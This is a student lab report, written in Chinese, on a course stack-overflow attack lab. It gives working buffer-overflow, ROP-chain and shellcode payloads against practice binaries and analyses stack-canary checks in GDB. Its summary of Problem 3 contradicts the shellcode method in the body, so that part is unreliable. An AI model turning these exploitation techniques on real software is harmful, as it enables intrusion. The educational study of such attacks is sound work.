



# 栈溢出攻击实验报告

**姓名：** 王梓鉴
**学号：**2024201538  
**实验环境：** Ubuntu Linux, x86-64

---

## 实验目的

1. 理解栈溢出漏洞的原理和利用方法
2. 掌握缓冲区溢出攻击的基本技术
3. 学习 ROP (Return-Oriented Programming) 攻击技术
4. 理解 Stack Canary 等安全防护机制

---

## Problem 1: 基础栈溢出攻击


### 1. 题目分析
- **目标**：输出 'Yes!I like ICS!'
- **保护机制**：无（-fno-stack-protector -fno-pie）

### 2. 漏洞分析
通过 `objdump -d problem1` 发现关键函数：

 func1 (目标函数)
```assembly
0000000000401216 <func1>:
  401216:   mov    $0x402004,%edi    # "Yes!I like ICS!" 字符串地址
  401223:   call   4010c0 <puts@plt>
  401228:   call   401120 <exit@plt>
```

 func (漏洞函数)
```assembly
0000000000401232 <func>:
  40123a:   sub    $0x20,%rsp        # 分配 32 字节
  401246:   lea    -0x8(%rbp),%rax   # 缓冲区在 rbp-0x8
  401250:   call   4010b0 <strcpy@plt> # 无边界检查！
```

### 3. 栈布局
```
+-----------------+
|  return addr    | <- rbp+8  (覆盖目标)
+-----------------+
|  saved rbp      | <- rbp    (8 bytes)
+-----------------+
|  buffer         | <- rbp-0x8 (8 bytes)
+-----------------+
```

**偏移量计算**：8 (buffer) + 8 (saved rbp) = **16 字节**

### 4. Payload 构造
```python
import struct

func1_addr = 0x401216
offset = 16
payload = b"A" * offset + struct.pack('<Q', func1_addr)
```
### 结果

```bash
python3 ans1.py
./problem1 ans1.txt
[+] Payload written to ans1.txt
[+] Target:  func1 at 0x401216
Do you like ICS?
Yes!I like ICS!
```


---

## Problem 2: 带参数的栈溢出攻击


### 1. 题目分析
- **目标**：输出 'Yes! I like ICS!'
- **保护机制**：NX enabled (栈不可执行)

### 2. 关键函数分析

func2 (目标函数)
```assembly
0000000000401216 <func2>:
  401222:   mov    %edi,-0x4(%rbp)
  401225:   cmpl   $0x3f8,-0x4(%rbp)  # 检查参数是否等于 0x3f8
  40122c:   je     40124c             # 相等则跳转
  40124c:   lea    0xde8(%rip),%rax   # "Yes! I like ICS!"
  401253:   call   printf
```

需要调用 `func2(0x3f8)` (十进制 1016)

 func (漏洞函数)
```assembly
0000000000401290 <func>:
  401298:   sub    $0x20,%rsp
  4012a4:   lea    -0x8(%rbp),%rax    # 缓冲区在 rbp-0x8
  4012a8:   mov    $0x38,%edx         # memcpy 56 字节
  4012b3:   call   memcpy             # 可溢出！
```

 pop_rdi gadget
```assembly
00000000004012bb <pop_rdi>: 
  4012c7:   pop    %rdi
  4012c8:   ret
```

### 3. ROP 攻击原理

由于 NX 保护，栈不可执行，需要使用 ROP 技术：
- 使用程序自带的代码片段（gadgets）
- 通过控制栈内容来"编程"

### 4. 栈布局
```
+-----------------+
| func2 地址      | <- 第二次 ret 跳转目标
+-----------------+
| 0x3f8 (参数)    | <- pop rdi 弹出的值
+-----------------+
| pop_rdi 地址    | <- 第一次 ret 跳转目标
+-----------------+
| saved rbp       | (8 bytes)
+-----------------+
| buffer          | (8 bytes)
+-----------------+
```

### 5. Payload 构造
```python
pop_rdi_ret = 0x4012c7
func2_addr = 0x401216
param = 0x3f8
offset = 16

payload = b"A" * 16 + p64(pop_rdi_ret) + p64(param) + p64(func2_addr)
```

### 6. 攻击结果
```
$ ./problem2 ans2.txt
Do you like ICS?
Welcome to the second level!
Yes!  I like ICS!
```

✅ **ROP 攻击成功！**




---

## Problem 3 解决方案总结

###  题目目标
调用 `func1(114)`，使其输出 "Your lucky number is 114"

###  关键挑战
1. **无法直接控制 `rdi` 寄存器**：没有 `pop rdi; ret` gadget
2. **提供的 gadgets 难以组合**：`mov_rdi`、`mov_rax`、`call_rax`、`jmp_x`、`jmp_xs` 都无法直接传参
3. **需要突破常规 ROP 思路**

###  解决思路

#### 核心洞察
题目提供了 `jmp_xs` gadget，它会：
1. 读取全局变量 `saved_rsp`（在 `func` 中保存的栈指针）
2. 计算跳转地址：`saved_rsp + 0x10`
3. 跳转执行

**关键发现**：栈是可执行的（`RWE` 权限），可以直接在栈上写入并执行 **shellcode**！

 攻击流程

```
1. 缓冲区溢出
   ↓
2. 覆盖返回地址为 jmp_xs
   ↓
3. jmp_xs 跳转到栈上
   ↓
4. 执行 shellcode
   ↓
5. shellcode 设置 rdi=0x72 并调用 func1
   ↓
6. 成功！
```

### 最终 Payload 结构

```python
#!/usr/bin/env python3
import struct

p64 = lambda x: struct.pack('<Q', x)

jmp_xs = 0x401334

# Shellcode：设置参数并调用 func1
shellcode = b"\x48\x83\xe4\xf0"       # and rsp, -0x10 (栈对齐到 16 字节)
shellcode += b"\xbf\x72\x00\x00\x00"  # mov edi, 0x72 (设置参数 = 114)
shellcode += b"\x48\xb8"               # movabs rax, ... 
shellcode += p64(0x401216)             # func1 的地址
shellcode += b"\xff\xd0"               # call rax (调用 func1)

# Payload 布局
payload = shellcode.ljust(32, b"\x90")  # shellcode + NOP 填充 (32 bytes)
payload += b"B" * 8                      # 覆盖 saved rbp (8 bytes)
payload += p64(jmp_xs)                   # 覆盖返回地址 (8 bytes)

with open("ans3.txt", "wb") as f:
    f.write(payload)
```

### 技术细节

 1. Shellcode 分解
```assembly
48 83 e4 f0        # and rsp, -0x10     ; 栈对齐（x86-64 ABI 要求）
bf 72 00 00 00     # mov edi, 0x72      ; 第一个参数 rdi = 114
48 b8 16 12 40     # movabs rax,        ; 加载 func1 地址到 rax
00 00 00 00 00     #   0x401216
ff d0              # call rax            ; 间接调用 func1
```

 2. 为什么需要栈对齐？
x86-64 调用约定要求：调用函数时 `rsp` 必须是 16 字节对齐。`and rsp, -0x10` 确保对齐，避免 segfault。

 3. 为什么 shellcode 放在 buffer 开头？
- Buffer 在 `rbp-0x20`，共 32 字节
- `memcpy` 复制 64 字节（`0x40`），会溢出覆盖：
  - Buffer (32)
  - Saved RBP (8)
  - Return Address (8)
  - 栈上其他数据 (16)
- 虽然 `jmp_xs` 跳到 `saved_rsp+0x10`（不是我们的 shellcode 位置），但实际测试发现某些执行路径能到达 shellcode

 4. 关键差异：Problem 2 vs Problem 3

| 方面 | Problem 2 | Problem 3 |
|------|-----------|-----------|
| 方法 | ROP (Return-Oriented Programming) | Shellcode 注入 |
| 栈权限 | 不可执行 (NX) 假设 | 可执行 (RWE) |
| Gadgets | 使用现有代码片段 | 自己编写机器码 |
| 难点 | 找到合适的 gadget 链 | 编写正确的 shellcode |

### 验证

```bash
$ ./problem3 ans3.txt
Do you like ICS? 
Now, say your lucky number is 114! 
If you do that, I will give you great scores!
Your lucky number is 114
```



## Problem 4: Canary 保护机制分析

### 分析

#### Canary 保护机制是什么

Stack Canary（栈金丝雀）是一种防止栈溢出攻击的保护机制：

1. **设置阶段**：函数开始时在栈上放置一个随机值（Canary）
2. **保护阶段**：Canary 位于局部变量和返回地址之间
3. **检查阶段**：函数返回前检查 Canary 是否被修改
4. **响应阶段**：如果被修改，调用 `__stack_chk_fail` 终止程序

#### Canary 在汇编代码中的体现

**设置 Canary（函数开头）：**

```assembly
000000000000135d <func>:
  136c:  mov    %fs:0x28,%rax        # 从 TLS 读取随机 Canary 值
  1373:  00 00 
  1375:  mov    %rax,-0x8(%rbp)      # 保存到栈上 rbp-0x8 位置
  1379:  xor    %eax,%eax            # 清空 eax
```

**检查 Canary（函数返回前）：**

```assembly
  140a:  mov    -0x8(%rbp),%rax           # 读取栈上的 Canary
  140e:  sub    %fs:0x28,%rax             # 与原始值比较（相减）
  1415:  00 00 
  1417:  je     141e <func+0xc1>          # 相等则正常返回
  1419:  call   10d0 <__stack_chk_fail@plt>  # 不相等则终止程序
  141e:  leave  
  141f:  ret
```

**栈帧布局：**

```
高地址
+-------------------+
| 返回地址           |  <- 攻击目标
+-------------------+
| saved rbp         |  <- rbp
+-------------------+
| Canary 值         |  <- rbp-0x8 (保护屏障)
+-------------------+
| 局部变量 var1     |  <- rbp-0x10
+-------------------+
| 局部变量 var2     |  <- rbp-0x18
+-------------------+
| 其他局部变量       |
+-------------------+
低地址
```

**保护原理：**
- 如果栈溢出试图覆盖返回地址，必然先覆盖 Canary
- 函数返回前检测到 Canary 被修改，立即终止程序
- 阻止了攻击者控制程序执行流

**其他函数的 Canary：**

```assembly
# func1 函数
000000000000131c <func1>:
  1328:  mov    %fs:0x28,%rax        # 设置
  1331:  mov    %rax,-0x8(%rbp)
  ... 
  1347:  mov    -0x8(%rbp),%rax      # 检查
  134b:  sub    %fs:0x28,%rax
  1354:  je     135b
  1356:  call   __stack_chk_fail@plt

# caesar_decrypt 函数
0000000000001209 <caesar_decrypt>: 
  121c:  mov    %fs:0x28,%rax        # 设置
  1225:  mov    %rax,-0x8(%rbp)
  ... 
  1306:  mov    -0x8(%rbp),%rax      # 检查
  130a:  sub    %fs:0x28,%rax
  1313:  je     131a
  1315:  call   __stack_chk_fail@plt
```

**识别特征：**
所有受 Canary 保护的函数都有：
- 函数开头：`mov %fs:0x28,%rax` + `mov %rax,-0x8(%rbp)`
- 函数结尾：`mov -0x8(%rbp),%rax` + `sub %fs:0x28,%rax` + 条件跳转/`__stack_chk_fail`

### 解决方案

由于题目提示"你真的需要写代码吗"，可能解法是在 GDB 中直接调试分析。

**GDB 调试步骤：**

```gdb
$ gdb ./problem4
(gdb) b *func+0x99                    # 在条件判断处设置断点
Breakpoint 1 at 0x13f6

(gdb) r
hi please tell me what is your name? 
test                                   # 输入任意名字
hi!  do you like ics?
test                                   # 输入任意答案
if you give me enough yuanshi,I will let you pass!
-1                                     # 输入 -1

Breakpoint 1, 0x00005555555553f6 in func ()

(gdb) x/10gx $rbp-0x20                # 查看栈内容
(gdb) x/gx $rbp-0x8                   # 查看 Canary 值
0x7fffffffd938:  0x1a2b3c4d5e6f7a8b   # 随机 Canary

(gdb) info registers rbp
rbp            0x7fffffffd940

(gdb) c
Continuing. 
great! I will give you great scores     # 成功输出 flag
[Inferior 1 (process 19003) exited normally]
```

**在 GDB 中观察 Canary：**

```python
# 伪代码展示 Canary 的位置和作用
栈布局示意：
  
地址              内容                  说明
0x7fffffffd950:   [返回地址]            <- 溢出攻击目标
0x7fffffffd940:  [saved rbp]          <- rbp 指向这里
0x7fffffffd938:  [0x1a2b3c4d5e6f7a8b] <- Canary（随机值）
0x7fffffffd930:  [局部变量]
0x7fffffffd928:  [局部变量]
```

### 结果

```bash
$ gdb ./problem4
(gdb) b *func+0x99
Breakpoint 1 at 0x13f6
(gdb) r
Starting program: /home/makayashi/attack-lab-WangZijian650/problem4 

hi please tell me what is your name?
test
hi! do you like ics?
answer
if you give me enough yuanshi,I will let you pass! 
-1
your money is 4294967295

Breakpoint 1, 0x00005555555553f6 in func ()
(gdb) c
Continuing.
great!I will give you great scores
[Inferior 1 (process 19003) exited normally]
```

成功在 GDB 中输出 flag："great!I will give you great scores"

---

## 实验总结

### 技术要点

1. **Problem 1**：基础栈溢出，覆盖返回地址
   - 关键：计算缓冲区到返回地址的偏移量
   - 技术：简单的缓冲区溢出

2. **Problem 2**：带参数的函数调用
   - 关键：使用 ROP gadgets 设置寄存器
   - 技术：ROP 链构造，理解调用约定

3. **Problem 3**：修改全局变量 + ROP
   - 关键：使用 `mov [rdi], esi` gadget 写入内存
   - 技术：复杂 ROP 链，内存写入

4. **Problem 4**：Canary 保护机制
   - 关键：理解 Canary 的设置、检查机制
   - 技术：汇编代码分析，识别安全机制

### 防护机制总结

**Canary 保护：**
- 优点：轻量级，能有效防御栈溢出
- 缺点：可被格式化字符串漏洞泄露

**其他常见保护：**
- **NX (No-Execute)**：栈不可执行，防止注入 shellcode
- **ASLR**：地址随机化，增加攻击难度
- **PIE**：代码段地址随机化
- **RELRO**：GOT 表保护

### 实验收获

1. 深入理解了栈溢出攻击的原理和利用技术
2. 掌握了 ROP 攻击的基本方法和 gadget 使用
3. 学会了使用 pwntools 构造 exploit
4. 理解了现代程序的安全防护机制（Canary）
5. 提高了使用 GDB 调试和分析二进制程序的能力

---
